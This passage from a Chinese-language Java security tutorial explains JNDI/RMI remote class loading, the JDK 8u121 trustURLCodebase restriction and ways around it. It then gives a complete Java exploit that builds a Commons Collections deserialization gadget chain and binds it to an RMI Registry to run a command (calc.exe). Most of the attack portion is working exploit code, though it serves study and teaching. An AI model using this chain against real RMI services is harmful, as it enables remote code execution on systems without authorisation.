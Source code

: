 > ```
> javax.naming.ConfigurationException: The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.
> ```

这是因为JDK8u121开始，Oracle开始设置默认系统变量`com.sun.jndi.rmi.object.trustURLCodebase`为`false`，这就导致通过RMI加载远程字节码不会被信任。

设置该系统变量的话可以发现能够成功加载恶意类字节码，但是一般来说对于攻击而言毫无意义。

绕过方式有两种：

1. 使用LDAP服务取代RMI服务（8u191开始引入了JRP290，加入了反序列化类过滤）
2. Tomcat-EL利用链，客户端需要存在依赖`tomcat-embed-el:V8.5.15`

### Registry自身被反序列化RCE

前面提到，在进行RMI时，返回值会被序列化传输给客户端，那么如果客户端连接到Registry并自己Bind呢？

来看一段代码：

```java
public class Main {
    public static void main(String[] args) {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[0]}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"}),
        };
        Transformer transformer = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map ouputMap = LazyMap.decorate(innerMap,transformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(ouputMap,"pwn");
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        try {
            Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
            field.setAccessible(true);
            field.set(badAttributeValueExpException,tiedMapEntry);

            Map tmpMap = new HashMap();
            tmpMap.put("pwn",badAttributeValueExpException);
            Constructor<?> ctor = null;
            ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
            ctor.setAccessible(true);
            InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Override.class,tmpMap);

            Remote remote = Remote.class.cast(Proxy.newProxyInstance(Main.class.getClassLoader(), new Class[] {Remote.class}, invocationHandler));
            Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
            registry.bind("pwn",remote);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
